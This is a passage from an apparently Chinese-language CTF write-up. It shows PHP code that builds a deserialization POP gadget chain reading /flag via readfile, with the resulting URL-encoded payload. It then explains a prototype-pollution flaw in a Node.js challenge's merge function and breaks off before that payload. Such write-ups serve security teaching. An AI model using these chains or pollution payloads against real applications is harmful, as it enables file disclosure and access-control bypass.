 ```
        $this-&gt;handle = $a;
    }
}
class WhiteGod {
    public $func;
    public $var;
    public function __construct($a, $b) {
        $this-&gt;func = $a;
        $this-&gt;var = $b;
    }
}
// POP Gadget: 
// Begin::__destruct -&gt; Then::toString -&gt; Super::__invoke -&gt; Handle::__call -&gt; CTF::end -&gt; WhiteGod::__unset
$obj = new Begin(new Then(new Super(new Handle(new CTF(new WhiteGod("readfile","/flag"))))));
echo urlencode(serialize($obj));

```

需要注意的是一些类中有保护或私有属性的成员，因此需要对序列化数据进行URL编码，得到：

```
O%3A5%3A%22Begin%22%3A1%3A%7Bs%3A4%3A%22name%22%3BO%3A4%3A%22Then%22%3A1%3A%7Bs%3A10%3A%22%00Then%00func%22%3BO%3A5%3A%22Super%22%3A1%3A%7Bs%3A6%3A%22%00%2A%00obj%22%3BO%3A6%3A%22Handle%22%3A1%3A%7Bs%3A6%3A%22%00%2A%00obj%22%3BO%3A3%3A%22CTF%22%3A1%3A%7Bs%3A6%3A%22handle%22%3BO%3A8%3A%22WhiteGod%22%3A2%3A%7Bs%3A4%3A%22func%22%3Bs%3A8%3A%22readfile%22%3Bs%3A3%3A%22var%22%3Bs%3A5%3A%22%2Fflag%22%3B%7D%7D%7D%7D%7D%7D

```

### 九、OtenkiGirl

1.随便提交一些信息，通过抓包或者直接查看附件的源码都能发现下面两个请求地址：<br/> 第一个：获取全部信息（可以改变0的值就是获取到指定时间戳之后的信息）<br/>  

<br/>  

<br/> 第二个：提交信息<br/>  

<br/> 提交信息必须为 JSON 格式contact和reason字段是必须的，例如

```
POST /submit HTTP/1.1
Content-Type: application/json

{  "contact": "test",  "reason": "test"}

```

查看routes/info.js源码，考察从数据库中获取数据的函数getInfo<br/>  

<br/> 其中第4行和第5行将我们传入的`timestamp`做了一个过滤，使得所返回的数据不早于配置文件中的`min_public_time`<br/> 查看根目录下的`config.js`和`config.default.js`后发现`config.js`并没有配置`min_public_time`，因此`getInfo`的第5行只是采用了`DEFAULT_CONFIG.min_public_time`<br/> 考虑原型链污染污染`min_public_time`为我们想要的日期，就能绕过最早时间限制，获取任意时间的数据<br/> 查看`routes/submit.js`源码，发现注入点<br/>  

<br/> 其中`merge`函数第7行存在原型链污染，因此只要考虑注入`data['__proto__']['min_public_time']`的值即可<br/> 于是构造`payload`
